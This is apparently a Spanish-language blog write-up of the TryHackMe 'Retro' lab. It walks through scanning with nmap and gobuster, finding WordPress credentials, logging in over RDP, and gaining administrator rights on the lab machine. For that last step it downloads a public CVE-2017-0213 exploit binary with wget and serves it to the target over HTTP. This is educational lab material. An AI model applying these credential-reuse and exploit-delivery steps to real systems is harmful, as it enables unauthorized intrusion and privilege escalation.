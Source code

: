 ```yaml
---
title: Try Hack Me - Retro - Writeup
date: 2022-09-29 10:30:00 +0800
categories: ["Try Hack Me"]
tags: [thm, writeups]     # TAG names should always be lowercase
---
```


En esta guía vamos a resolver el room [Retro](https://tryhackme.com/room/retro), una sala de dificultad **Alta** disponible en [THM](https://tryhackme.com) y creada por [DarkStar7471](https://tryhackme.com/p/DarkStar7471).

Dentro música.

## Enumeración

En la descripción el autor nos informa que la máquina no responde a ping. Atentos a ello lanzamos un **nmap** básico con la flag `-Pn`.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ nmap -Pn 10.10.30.226
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 10:04 CEST
Nmap scan report for 10.10.30.226
Host is up (0.036s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

Tenemos dos puertos escuchando:

* *80/tcp*: con un servicio **http** detrás.
* *3389/tcp*: con un servicio **ms-wbt-server** detrás.

Vamos a ello.

## HTTP

Arrancamos con el **http** y escaneamos directorios con **gobuster**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ gobuster dir -u http://10.10.30.226 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.30.226
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/29 10:10:42 Starting gobuster in directory enumeration mode
===============================================================
/<EDITADO>                (Status: 301) [Size: 149] [--> http://10.10.30.226/<EDITADO>/]
/<EDITADO>                (Status: 301) [Size: 149] [--> http://10.10.30.226/<EDITADO>/]
[...]
```

Con esto podemos responder al primer desafío.

Nos vamos al navegador y cargamos `http://10.10.30.226/<EDITADO>/`

![](/assets/posts/20220927/retro01.png)

Según parece tenemos un primer nombre de usuario: *Wade*.

Trasteamos con la web, nos leemos los posts, probamos a dejar una respuesta ... y damos con ésto:

![](/assets/posts/20220927/retro02.png)

Nuestro amigo *Wade* se ha dejado un recordatorio con info interesante.

Pero no acaba aquí la cosa. Dentro de los links del apartado **META** hay uno especialmente goloso. Le damos y se nos carga la siguiente página.

![](/assets/posts/20220927/retro03.png)

Probamos con las credenciales que hemos conseguido (*Wade:parzival*) y accedemos al dashboard de Wordpress.

![](/assets/posts/20220927/retro04.png)

Desde este punto podemos intentar cargar una shell reversa en PHP en alguna de las páginas del site para conectarnos contra nuestro equipo. En mi caso, decidí frenar aquí y ver qué da de sí el otro puerto abierto.

## RDP

Lanzamos un escaneo utilizando los oportunos scripts de **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.10.30.226
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 10:09 CEST
Nmap scan report for 10.10.30.226
Host is up (0.036s latency).
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-29T08:09:48+00:00
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
Nmap done: 1 IP address (1 host up) scanned in 2.21 seconds
```

Bien, probamos a conectarnos via RDP con **xfreerdp** y las credenciales de que disponemos.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ xfreerdp /u:Wade /p:parzival /v:10.10.30.226 /w:800 /h:600
```

OK, estamos dentro, y en el escritorio nos aparece un fichero con la flag correspondiente al usuario.

A partir de este punto confieso que me tiré un buen rato trasteando y probando cosas, todas sin éxito :(

Finalmente encontré el modo de avanzar [aquí](https://steflan-security.com/tryhackme-retro-walkthrough/). Por lo visto, la versión del sistema operativo del servidor tiene una vulneravilidad conocida [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213) que podemos aprovechar utilizando el fichero `CVE-2017-0213_x64.zip` disponible [aquí](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213/Binaries).

Lo descargamos a nuestro directorio de trabajo e iniciamos un servicio HTTP con python3 para poderlo traspasar a la máquina objetivo.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ wget https://github.com/WindowsExploits/Exploits/raw/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
--2022-09-29 18:53:18--  https://github.com/WindowsExploits/Exploits/raw/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/WindowsExploits/Exploits/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip [following]
--2022-09-29 18:53:18--  https://raw.githubusercontent.com/WindowsExploits/Exploits/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 83287 (81K) [application/zip]
Saving to: 'CVE-2017-0213_x64.zip'

CVE-2017-0213_x64.zip                     100%[===================================================================================>]  81.33K  --.-KB/s    in 0.01s   

2022-09-29 18:53:18 (5.93 MB/s) - 'CVE-2017-0213_x64.zip' saved [83287/83287]


┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Retro]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

En el equipo remoto abrimos **Chrome** y descargamos el `.zip` atacando a nuestra máquina.

![](/assets/posts/20220927/retro05.png)

Nos vamos a la carpeta de Descargas, abrimos el zip y ejecutamos.

![](/assets/posts/20220927/retro06.png)

![](/assets/posts/20220927/retro07.png)

Se nos abre un cmd con privilegios de Administrador.

![](/assets/posts/20220927/retro08.png)

Confirmamos y nos movemos al Escritorio del Administrador.

![](/assets/posts/20220927/retro09.png)

Hemos conseguido la flag de root.

Espero os hayan resultado útiles éstas notas.

Sed curiosos.

